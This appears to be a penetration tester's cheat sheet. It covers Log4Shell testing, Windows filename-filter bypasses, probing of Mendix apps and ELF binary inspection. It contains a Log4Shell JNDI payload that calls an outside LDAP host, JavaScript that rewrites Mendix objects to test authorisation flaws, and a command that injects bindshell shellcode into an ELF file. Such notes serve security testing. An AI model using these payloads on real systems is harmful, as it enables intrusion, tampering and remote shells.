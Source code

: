 
${jndi:ldap://domain.com:1234/a}  
 
Easy test for log4j dns lookups:
```
${jndi:dns://<domain>} 
${jndi:dns://<ip>}
nc -ulp 53
```

https://log4shell.tools/  
https://github.com/alexbakker/log4shell-tools  


Directory/file name bypasses
```
C:\>powershell C:\??*?\*3?\c?lc.?x? calc.exe
C:\>powershell C:\*\*2\n??e*d.* notepad.exe
C:\>powershell C:\*\*2\t?s*r.* taskmgr.exe
```
8.3 / Short filename notation
```
dir /a:h /x
for %A in (*.*) do @echo %~nsA %~nA

C:\>dir /a:h /x
                                        *
13/10/2011  09:14 AM    <DIR>          DOCUME~1     Documents and Settings
13/10/2011  09:05 AM    <DIR>          PROGRA~1     Program Files
13/10/2011  09:05 AM    <DIR>          PROGRA~2     Program Files(x86)

C:\>for %A in (*.*) do @echo %~nsA %~nA
$WINDOWS $WINDOWS
DOCUME~1 Documents and Settings
NVIDIA~1 NVIDIA Corporation
SYSTEM~1 System Volume Information
```

Display all unicodes + alt codes
0..65535 | ForEach-Object { $char = [char]$_; if ($char -ne [char]0) { "Alt+" + $_ + " → " + $char + " (U+" + $_.ToString("X4") + ")" } }

## Mendix
Usefull Javascript functions:  
```
mx.session.getConfig("locale");

mx.session.getConfig("constants");
// or if you are on a newer Mx version (> 9.x )
mx.session.getConstants();

mx.session.getConfig("isDevModeEnabled");

mx.session.getConfig("metadata");

mx.session.getConfig("roles");

mx.session.getConfig("user");

mx.session.getConfig("sessionObjectId");

mx.session.getConfig("demoUsers");

mx.meta.getMap();

```
Look for authorisation issues.

Some queries need schema/id/guid, some can have an empty schema:
```
{"action":"retrieve_by_xpath","params":{"xpath":"//Personal.Foto","schema":{},"count":false}}
```

Create a object which can be used for callback
```
function output(obj){
 o = obj
}

o;

mx.data.get({guid:"13641898043228119", callback:output});

o.set("Filename", "hackedname")

mx.data.commit({mxobj: o, callback: console.info});
```  

get_session_data contains alot of useful information  

Schema/id en entity enumeration:
1. .XML frontend files enumeraten filter containing 'entity', grep for '"schema":"' to find guid
2. initial session response contains juicy data grep for 'klass' to find objects
3. Try to enumerate microflows:
//MxModelReflection.Microflows (geen guid nodig)

A few default schema's:
```
//System.User
//System.UserRole
//System.Session
//System.TimeZone
//System.Language
//System.Workflow
//System.WorkflowState
//System.WorkflowDefinition
//Administration.Account
```
Mendix uses the following action's to write and read data:
```
Action      Parameter
retrieve - queryId
retrieve_by_xpath - xpath 
retrieve_by_ids - ids
executeaction - actionname, applyto
poll_background_job
keepalive
commit - guids
export - gridid, buttonid, xpath
runtimeOperation - operationId
executemicroflow - name
```
Each action requires different parameters.

Whenever u use a retrieve_by_xpath query the response will contain a list of the found objects/guids:
```
"resultGuids":["17983245202395311","57913545202395512","27983845202395995","37983444202396999","55599999395718","57983849992335898","51983855202395949","545123845202226068"]
```
https://docs.mendix.com/    
https://github.com/mendix/RestServices

https://video.mendix.com/watch/xpvL3W9zvMJGar1GxhE5iT  
https://video.mendix.com/watch/xSrQDTHT7X3978aSXSoy6t  


# Linux binary exploitation
dump ELF’s header
$readelf -h <filename>

Symbols  
```
non stripped binary
$ readelf --syms <filename>.out

stripping symbols from a binary
$ strip --strip-all <filename>.out
$ readelf --syms <filename>.out
```

Sections  
```
dump all ELF’s sections information
$readelf --sections --wide <filename>.out
dump the .plt section
$ objdump -M intel --section .plt -d <filename>.out
dump the relocs
$ readelf --relocs <filename>.out
``` 

Program headers  
```
dump all ELF’s program headers information
$ readelf --segments --wide <filename>.out
```

Binary Inspection/Forensic  

```
Check magic bytes to obtain file type
$ file <filename>
base64 decode
$ base64 -d <encoded_file> > <decoded_file>
uncompress preview
$ file -z <compressed_file>
uncompress file
$ tar xvzf <compressed_file>
find library dependencies
$ ldd <filename>
dump hex first 128 bytes
$ xxd -l 128 <filename>
dump binary first 128 bytesr
$ xxd -b -l 128 <filename>
dump c-style header first 128 bytes at a 256-bytes offset
$ xxd -i -s 256 -l 128 <filename>
extract 64-bytes long ELF header residing 52 bytes after start, 1 byte a time time
$ dd skip=52 count=64 if=<input_filename> of=<output_filename> bs=1
Calculate total binary file given ELF header only
total_size = elf_section_header_offset + (elf_section_headers_count * elf_section_header_size)
List symbols from object file
$ nm <filename>
List and demangle dynamic symbols from stripped object file
$ nm -D --demangle <filename>
Add current path to the linker environment
$ export LD_LIBRARY_PATH=`pwd`
Trace system calls
$ strace <filename>`
Trace library calls while demangling C++ functions and printing EIP
$ ltrace -i -C <filename>`
```

Disassembling  
```
simple disassembly of an object file
$ objdump -M intel -d <filename>.o
check relocations inside the object file
$ readelf --relocs compilation_example.o
full binary disassembly
$ objdump -M intel -d <filename>.out
```

Set a breakpoint  
```
(gdb) b *0x[address]
Show the registers
(gdb) info registers [specific register]
Dump a string at memory address
(gdb) x/s 0x[memory_address]
Dump a four hex words at memory address
(gdb) x/4xw 0x[memory_address]
```

Partial RELRO  
```
gcc -g -Wl,-z,relro -o test testcase.c
Full RELRO
gcc -g -Wl,-z,relro,-z,now -o test testcase.c
```

Binary Injection  
Assemble a raw binary (removing any ELF overhead and leaving just the code)  
```
nasm -f bin -o test.bin test.s
Inject shellcode into an ELF
elfinject ps bindshell.bin ".injected" 0x800000 -1
```
